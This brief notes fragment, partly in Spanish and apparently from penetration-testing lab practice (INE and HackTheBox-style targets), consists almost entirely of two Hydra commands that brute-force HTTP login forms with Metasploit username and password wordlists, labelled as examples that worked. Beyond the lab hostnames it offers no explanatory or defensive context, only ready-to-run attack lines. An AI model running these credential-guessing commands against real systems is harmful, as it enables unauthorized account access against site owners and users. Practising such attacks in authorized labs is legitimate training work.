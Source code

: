 `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-post-form "/acp/login:login_name=^USER^&login_psw=^PASS^:F=Login"


Ejemplos que funcionaron:

```bash
hydra -l admin -P wordlist.txt 10.129.155.168 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."
```
`